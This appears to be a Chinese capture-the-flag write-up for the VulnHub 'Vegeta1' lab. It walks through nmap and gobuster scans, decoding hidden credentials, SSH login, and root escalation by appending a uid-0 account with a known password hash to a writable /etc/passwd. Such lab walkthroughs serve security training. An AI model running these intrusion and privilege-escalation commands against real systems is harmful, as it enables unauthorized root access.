







# Vegeta1

> https://download.vulnhub.com/vegeta/Vegeta.ova

靶场IP：`192.168.32.24`

扫描对外端口服务

```
┌──(root㉿kali)-[/tmp]
└─# nmap -sV -p1-65535 192.168.32.24
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 05:27 EDT
Nmap scan report for 192.168.32.24
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:8F:78:BF (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds
```

访问80端口



爆破目录

```
┌──(root㉿kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.24 -w /usr/share/wordlists/rockyou.txt  

```

访问：`/robots.txt`

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.24/robots.txt                               
*
/find_me
```

访问`/fine_me`



查看页面源代码，发现

```
<!-- aVZCT1J3MEtHZ29BQUFBTlNVaEVVZ0FBQU1nQUFBRElDQVlBQUFDdFdLNmVBQUFIaGtsRVFWUjRuTzJad1k0c09RZ0U1LzkvK3UyMU5TdTdCd3JTaVN0QzhoR2M0SXBMOTg4L0FGanljem9BZ0RNSUFyQUJRUUEySUFqQUJnUUIySUFnQUJzUUJHQURnZ0JzUUJDQURRZ0NzQUZCQURhRUJmbjUrUmwvbk9aTFAxeER6K3g5VTA1cWJoWjFkcjRzSFQyejkwMDVxYmxaMU5uNXNuVDB6TjQzNWFUbVpsRm41OHZTMFRONzM1U1RtcHRGblowdlMwZlA3SDFUVG1wdUZuVjJ2aXdkUGJQM1RUbXB1Vm5VMmZteWRQVE0zamZscE9hdVhKUVRUamxkSHZ0YmxvNDZOUWp5UjV4eUlvZ09CUGtqVGprUlJBZUMvQkdubkFpaUEwSCtpRk5PQk5HQklIL0VLU2VDNkVDUVArS1VFMEYwakJWRS9aSGM4SEhkUHZ1RWQwZVF3N003MWFtelRIaDNCRGs4dTFPZE9zdUVkMGVRdzdNNzFhbXpUSGgzQkRrOHUxT2RPc3VFZDBlUXc3TTcxYW16VEhoM0JEazh1MU9kT3N1RWQwZVFJcWJNNENUcmhKMGhTQkZUWmtDUUdBaFN4SlFaRUNRR2doUXhaUVlFaVlFZ1JVeVpBVUZpSUVnUlUyWkFrQmdJVXNTVUdSQWtCb0lVMFRHZjAxN2UrdTRJVXNScEtSRGtXYzVsdjNEQlN4ZjFqZE5TSU1pem5NdCs0WUtYTHVvYnA2VkFrR2M1bC8zQ0JTOWQxRGRPUzRFZ3ozSXUrNFVMWHJxb2I1eVdBa0dlNVZ6MkN4ZThkRkhmT0MwRmdqekx1ZXdYTGhCL2VGazZjcm84Mm9rc2IzMTNCQkgwdkNITFc5OGRRUVE5YjhqeTFuZEhFRUhQRzdLODlkMFJSTkR6aGl4dmZYY0VFZlM4SWN0YjN4MUJCRDF2eVBMV2R5OFZaTXJwV1BDYjY2YWNEQWdTbUkrNjJTY0RnZ1RtbzI3MnlZQWdnZm1vbTMweUlFaGdQdXBtbnd3SUVwaVB1dGtuQTRJRTVxTnU5c25nOVNPMkFjcmxQN212SXd2OEg3YjVDd1NCVDlqbUx4QUVQbUdidjBBUStJUnQvZ0pCNEJPMitRc0VnVS9ZNWk4UUJENlIvUS9pMURPTFU4OHBkV3FxY3lKSTBlenFubFBxMUNBSWdveXFVNE1nQ0RLcVRnMkNJTWlvT2pVSWdpQ2o2dFFnQ0lLTXFsTnpYQkExYnhZeWk5TU1UbStVeWwvZXNSZ0VpZU0wZzlNYnBmS1hkeXdHUWVJNHplRDBScW44NVIyTFFaQTRUak00dlZFcWYzbkhZaEFranRNTVRtK1V5bC9lc1JnRWllTTBnOU1icGZLWGR5d0dRZUk0emVEMFJxbjhwYzJTUTcxWkFxZlpwd2pTVWJmc2w2cEtoRU1RajV3SUVzeWZxa3FFUXhDUG5BZ1N6SitxU29SREVJK2NDQkxNbjZwS2hFTVFqNXdJRXN5ZnFrcUVReENQbkFnU3pKK3FTb1JERUkrY0NCTE1uNm9xRHVleWpLNmVhcHdFNmNpWjdabkttS29xRHVleWpLNmVhaEFFUVI3VnFYdXFRUkFFZVZTbjdxa0dRUkRrVVoyNnB4b0VRWkJIZGVxZWFoQUVRUjdWcVh1cVFaQ0JncWcvNWpmZjEvRngzUzdXOHE2cHdia1BRUkNFK3hDa01HZnFycW5CdVE5QkVJVDdFS1F3WitxdXFjRzVEMEVRaFBzUXBEQm42cTdLY0ZtY0hzYnBvM1RLMlpGbEFnaHlPQXVDZUlNZ2g3TWdpRGNJY2pnTGduaURJSWV6SUlnM0NISTRDNEo0Z3lDSHN5Q0lONldDM1A0d1RvL3RKTEo2TDhvc0NGSjBueG9FUVpDMkxCMzNxVUVRQkduTDBuR2ZHZ1JCa0xZc0hmZXBRUkFFYWN2U2NaOGFCRUdRdGl3ZDk2bEJrSUdDZE5TcGUyYnZVMzk0Nm5mb3lPazAzN0pmdU1Ba2VGZlA3SDFPSDE3MlBuVk9wL21XL2NJRkpzRzdlbWJ2Yy9yd3N2ZXBjenJOdCt3WExqQUozdFV6ZTUvVGg1ZTlUNTNUYWI1bHYzQ0JTZkN1bnRuN25ENjg3SDNxbkU3ekxmdUZDMHlDZC9YTTN1ZjA0V1h2VStkMG1tL1pMMXhnRXJ5clovWStwdzh2ZTU4NnA5Tjh5MzdoQXZHSGZzUHlPN0pNMmFkNlp3aGkrbWdkODkyd1R3UzU3RUU3WmtjUUJMbm1RVHRtUnhBRXVlWkJPMlpIRUFTNTVrRTdaa2NRQkxubVFUdG1SNUFYQ1hJNzZnKzJBN1dRSFZrNnhFcmxUMVZkRElKNFpFRVFVeERFSXd1Q21JSWdIbGtReEJRRThjaUNJS1lnaUVjV0JERUZRVHl5akJXa1kyRDFjV0xLQitUeXdYNERRUkFFUVlUM0ljaGhFS1FXQkVFUUJCSGVoeUNIUVpCYUVBUkJFRVI0SDRJY0JrRnFzUmJFaVk2Y04zek1UaCtzK28xUy9VNEg2QUpCRUFSQk5pQUlnaURJQmdSQkVBVFpnQ0FJZ2lBYkVBUkJFR1FEZ2lESUtFRnUrTGc2NW5QSzRuVFV1MTdlRlM0d2VqUjF6bzc1bkxJNEhmV3VsM2VGQzR3ZVRaMnpZejZuTEU1SHZldmxYZUVDbzBkVDUreVl6eW1MMDFIdmVubFh1TURvMGRRNU8rWnp5dUowMUx0ZTNoVXVNSG8wZGM2TytaeXlPQjMxcnBkM2hRdU1IazJkczJNK3B5eE9SNzNyNVYzaEFxTkhVK2QwMnN1VUxOTnpJb2h4M1ExWnB1ZEVFT082RzdKTXo0a2d4blUzWkptZUUwR002MjdJTWowbmdoalgzWkJsZWs0RU1hNjdJY3YwbkFoU3hKUVoxRDJuZkMvTEhKWExjQm9ZUVR4NlR2bGVsamtxbCtFME1JSjQ5Snp5dlN4elZDN0RhV0FFOGVnNTVYdFo1cWhjaHRQQUNPTFJjOHIzc3N4UnVReW5nUkhFbytlVTcyV1pvM0laVGdNamlFZlBLZC9MTWtmbE1weVk4bEVxSC9zSlRoODZnaFNBSUxVZ1NQT2kxQ0JJTFFqU3ZDZzFDRklMZ2pRdlNnMkMxSUlnell0U2d5QzFJRWp6b3RRZ1NDMElVckNvS1NjN245TmVzcHplZmNVTTJmbFMvU29EVERrZEMzYWF3U2tuZ2d3OEhRdDJtc0VwSjRJTVBCMExkcHJCS1NlQ0REd2RDM2Fhd1NrbmdndzhIUXQybXNFcEo0SU1QQjBMZHByQktlZnJCQUY0RXdnQ3NBRkJBRFlnQ01BR0JBSFlnQ0FBR3hBRVlBT0NBR3hBRUlBTkNBS3dBVUVBTmlBSXdBWUVBZGp3SHlVRnd2VnIwS3ZGQUFBQUFFbEZUa1N1UW1DQw== -->
```

base64解密是一张二维码



扫二维码发现密码

```
Password : topshellv
```

访问：`/admin`



访问：`/bulma`，有个音频文件。



这个音频是莫斯密码加密

> 解密地址：https://morsecode.world/international/decoder/audio-decoder-adaptive.html



我们得到一个名为 `trunks` 的用户，密码为 `u$3r`，让我们试试之前找到的 SSH 端口：



最后我们找到了一种方法。我做的第一件事是在用户文件夹中查找线索，这里我们看到 `.bash_history`：

```
trunks@Vegeta:~$ ls -al
total 28
drwxr-xr-x 3 trunks trunks 4096 Jun 28  2020 .
drwxr-xr-x 3 root   root   4096 Jun 28  2020 ..
-rw------- 1 trunks trunks  382 Jun 28  2020 .bash_history
-rw-r--r-- 1 trunks trunks  220 Jun 28  2020 .bash_logout
-rw-r--r-- 1 trunks trunks 3526 Jun 28  2020 .bashrc
drwxr-xr-x 3 trunks trunks 4096 Jun 28  2020 .local
-rw-r--r-- 1 trunks trunks  807 Jun 28  2020 .profile

trunks@Vegeta:~$ cat .bash_history 
perl -le ‘print crypt("Password@973″,"addedsalt")’
perl -le 'print crypt("Password@973","addedsalt")'
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd[/sh]
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
ls
su Tom
ls -la
cat .bash_history 
sudo apt-get install vim
apt-get install vim
su root
cat .bash_history 
exit
```

我们看到一个密码被加盐，然后添加了一个名为 Tom 的新用户。奇怪的是，这是由用户完成的。让我们检查一下 passwd 文件的权限：

```
trunks@Vegeta:~$ ls -al /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28  2020 /etc/passwd
```

我们作为用户trunk有写权限，我们看一下passwd文件：

```
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

用户 Tom 不在 passwd 中，但我们可以使用历史文件中的行添加他：

```
trunks@Vegeta:~$ echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

现在我们可以使用上面找到的密码 Password@973 将用户切换到 Tom：


